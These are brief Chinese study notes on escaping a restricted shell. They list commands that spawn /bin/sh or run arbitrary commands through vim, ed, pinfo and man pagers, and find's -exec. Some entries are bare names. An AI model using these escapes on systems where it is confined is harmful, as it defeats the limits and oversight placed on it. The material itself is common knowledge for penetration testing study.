 突破技术

console 编辑器 vim
```
:!/bin/ls -l b*
:set shell=/bin/sh:shell
:!/bin/sh
```
ed
```
!'/bin/sh'
```
ne 加载配置文件 查看文件系统
paper  !'ls'或者 !'sh'
“man”使用“less”或“more”作为默认的man打开命令

用pinfo打开ls手册user@kali:~$ pinfo ls当ls手册页面打开后，在里面打“！”（感叹号）。请注意，这里就会打开了一个命令执行功能，现在执行一些简单的命令试试吧，就比如之前的“ls /etc”，可以看到成功执行：
find
/usr/bin/find examples.desktop -exec whoami ;

export PATH=/usr/sbin:/usr/bin:/sbin:/bin

awk命令 Python Ruby Perl php




